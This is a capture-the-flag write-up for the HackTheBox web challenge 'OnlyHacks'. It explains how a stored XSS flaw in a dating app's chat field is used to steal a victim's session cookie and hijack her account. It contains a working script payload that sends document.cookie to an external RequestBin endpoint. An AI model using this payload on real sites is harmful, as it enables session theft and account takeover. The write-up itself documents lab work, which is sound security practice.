


# OnlyHacks

**Category:** Web  
**Difficulty:** Easy  
**Platform:** HackTheBox

## Challenge Description

Dating and matching can be exciting, especially during Valentine's season, but it's important to stay vigilant for impostors. Can you help identify possible frauds?

## Initial Reconnaissance



Upon examining the application, I discovered that the chat field lacks proper input validation and supports rendering HTML tags. This vulnerability creates a potential location for a stored XSS (Cross-Site Scripting) attack.

## Exploitation

### Step 1: XSS Payload Testing

I used [RequestBin](https://requestbin.whapi.cloud/) to test the XSS vulnerability and generated a simple payload to steal cookies:

```html
<script>fetch("http://requestbin.whapi.cloud/ui3mf4ui",{method:"POST",mode:"no-cors",headers:{"Content-Type":"application/json"},body:JSON.stringify({cookie:document.cookie})});</script>
```

### Step 2: Cookie Harvesting



The payload successfully executed and captured the victim's session cookie, which was sent to my RequestBin endpoint.

### Step 3: Session Hijacking

Using the hijacked session token, I was able to impersonate the victim (Renata) and access their account. This allowed me to view the flag in a different chat conversation.

## Tools Used

- Browser Developer Tools
- RequestBin (for payload testing)
- Burp Suite (for request manipulation)

## Summary

[OnlyHacks has been Pwned](https://www.hackthebox.com/achievement/challenge/2245732/860)

The flag was obtained by successfully exploiting the stored XSS vulnerability and hijacking the victim's session.
